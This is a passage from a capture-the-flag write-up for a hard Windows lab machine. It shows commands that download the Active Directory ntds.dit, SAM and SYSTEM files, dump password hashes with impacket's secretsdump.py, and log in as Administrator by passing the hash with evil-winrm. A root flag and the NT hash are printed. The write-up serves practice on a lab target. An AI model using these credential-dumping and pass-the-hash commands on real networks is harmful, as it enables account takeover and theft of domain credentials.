 Now we can download them onto our machine:

`download ntds.dit`
`dowload SAM`
`download SYSTEM`

We can rely on `impacket` to dump the secrets with the command below:

`python3 secretsdump.py -system SYSTEM -ntds ntds.dit -sam SAM LOCAL`

MAKE SURE TO USE CORRECT `secretsdump.py`. Some are finicky and will not work. If you have issues, do 
`pip3 install .` in the root directory of the tool. Copy the new version over and try again.

Make sure to use the correct version of the `Administrator` hashes.

Once gotten, use the NT part of the hash to change `evil-winrm` shells:

`evil-winrm -i 10.10.10.192 -u "administrator" -H'184fb5e5178480be64824d4cd53b99ee'`

Flag and profit!

![Image](/assets/Screenshot 2024-09-18 at 2.58.09 PM.png)

`ROOT:4375a629c7c67c8e29db269060c955cb`

NOTE: The `psexec.py` is supposed to drop a shell as well, but no matter what I tried, the process kept hanging. May be of use later though.

#hard #windows #manual 
